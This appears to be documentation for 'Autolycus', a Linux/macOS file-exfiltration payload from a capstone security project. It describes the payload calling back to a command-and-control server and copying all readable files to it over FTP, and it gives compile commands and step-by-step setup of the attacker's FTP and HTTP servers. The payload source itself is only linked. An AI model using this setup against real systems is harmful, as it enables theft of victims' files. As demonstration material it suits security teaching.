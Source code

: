 # Linux/macOS Payload: Autolycus

### Source Code

* https://github.com/Nekrosis-ISS-Capstone/Linux-Payload

### Description

This is an example of a payload that can be used against a Linux based target in conjunction with the Nekrosis application. If Nekrosis is being used to demonstrate how an adversary could achieve persistence, this payload can be used to demonstrate the kind of code an adversary may deploy with their unauthorized access. This payload will call back to the C2 server to receive an instruction directive and will then proceed to recurse over the file system, copying all readable non-executable files to the C2 server over FTP.

Note the client supports Linux and macOS, but the server only supports Linux.

### Compilation

In the source code you must change all instances of "ADDRESS:PORT" with the appropriate information.

```shell [Command Line]
sudo apt install libcurl4-openssl-dev
gcc main.c -o main -s -lcurl
```

### Configuring the C2 Server

The following setup was successfully tested in Kali Linux. Both the web server and the VSFTPD server must be accessible by the target.

1. Setting up the VSFTPD server:

Installing VSFTPD:
```shell [Command Line]
sudo apt update && sudo apt install vsftpd
```
Creating the dedicated user:
```shell [Command Line]
sudo useradd test && sudo passwd test
```
Creating their home directory (that will be used as the local_root directory for FTP):
```shell [Command Line]
sudo mkdir /home/test && sudo chown test:test /home/test
```
The /etc/vsftpd.conf file needs to be edited to contain the following lines:
```shell [Command Line]
write_enable=YES
listen_port=[PORT]
userlist_deny=NO
userlist_enable=YES
userlist_file=/etc/vsftpd.userlist
pasv_min_port=[PORT]
pasv_max_port=[PORT]
local_root=/home/test/
```
The userlist should contain the dedicated user:
```shell [Command Line]
sudo touch /etc/vsftpd.userlist && sudo echo "test" >> /etc/vsftpd.userlist
```
Reload the service for the changes to take effect:
```shell [Command Line]
sudo systemctl restart vsftpd
```
Lastly, if this server will be running on a machine that is publicly accessible via SSH it is recommended to add the following line to /etc/ssh/sshd_config:
```shell [Command Line]
DenyUsers test
```

2. Setting up the web server:

Adding the dedicated user's credentials and the instruction directive:
```shell [Command Line]
echo -n "username" >> username.txt
```
```shell [Command Line]
echo -n "password" >> password.txt
```
```shell [Command Line]
echo -n "COPY" >> instruction.txt
```
Serving the files for the payload to see:
```shell [Command Line]
python -m http.server 8080
```

With these servers properly configured and accessible by the target the payload will have what it needs to execute the COPY directive. It is highly encouraged not to deploy this payload over the public internet particularly if there may be sensitive information on the victim.
